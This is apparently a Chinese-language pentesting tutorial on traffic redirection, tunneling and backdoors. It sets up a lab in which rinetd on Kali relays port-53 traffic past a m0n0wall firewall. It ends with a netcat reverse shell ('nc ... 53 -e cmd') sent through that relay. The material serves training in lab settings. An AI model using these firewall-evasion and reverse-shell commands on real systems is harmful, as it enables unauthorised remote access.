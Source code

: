 
# 流量操纵与后门

* [SSH](./[10-1]--SSH隧道.md)


* 简介
* 重定向

## 简介
* 介绍
> Traffic manipulation technique  
  渗透测试中经常遇到访问受限的网络环境  
  使用隐蔽的手段逃避安全检查措施和溯源追踪  
  证明看似严格的访问控制仍然存在弱点  
  在非受信任的网络中实现安全的数据传输  
  部分概念的实现过程略有烧脑

* 重定向 （Redirection）
> IP、Port

* 隧道 （Tunneling）
> 在不受信任的网络环境中实现安全的通信  
  通常使用多种加密技术建立通信隧道  
  点到点（IP2IP）、端到端（Port2Port，更安全）隧道  
  VPN：pptp、l2tp、IPSec、SSL vpn  

* 封装 （encapsulation）
> 通常结合在隧道中使用，使用一种协议封装一种协议 （RPC over http、VoIP）  
  使用网关设备实现不同类型的互联互通


## 重定向
* 安装 Rinetd
1. 安装：apt-get install rinetd
2. 配置：/etc/rinetd.conf
``` 
 bindadd bindport connectadd connectport

```
3. 运行 Rinetd

* 应用场景
1. 重定向 web 流量，突破上网限制
2. 远程桌面重定向
3. NC 重定向获得 shell
4. 不兼容 ftp 等第二次连接的协议  


* 远程桌面重定向环境进行测试
1. 环境拓扑
``` 
防火墙限制 winxp 访问外网，仅允许53 端口的流量访问内外网
在外网家庭主机 kali 上设置 rinetd 来进行代理
winxp 通过 53 端口访问 kali（rinetd） 进行流量转发，将53端口的流量转发为 80 端口的流量

m0n0wall <--bridge--> kali <--bridge--> 外网服务器win2003（http、rdp、nc）

m0n0wall <--hostonly--> 家庭 winxp
m0n0wall <--bridge--> 外网服务器 win2003（http、rdp、nc）
配置 m0n0wall 禁止 winxp 访问外网，只开放53端口

```   

2. 安装 m0n0wall 防火墙
   
``` 
仅主机
指定 ip: LAN: 1.1.1.1

```

3. winxp
``` 
仅主机
ip：1.1.1.10（dhcp自动获取）
```

4. win2003 开启 rdp，IIS
``` 
桥接
ip：192.168.1.12（dhcp自动获取）
```

5. Kali 安装 rinetd
``` 
桥接
ip：192.168.1.11（dhcp自动获取）
root@kali:~# apt-get install rinetd
root@kali:~# cat /etc/rinetd.conf


root@kali:~# rinetd

```

6. winxp 访问外网


* NC 重定向获得 shell 环境测试

* 将 kali 中的 nc.exe 复制到 winxp 和 win2003

* win2003
```  
C:\>nc -nvlp 333

```

* kali
``` 
root@kali:~# vim /etc/rinetd.conf

重启 rinetd
```

* winxp
``` 
C:\>nc 192.168.1.11 53 -e cmd

```


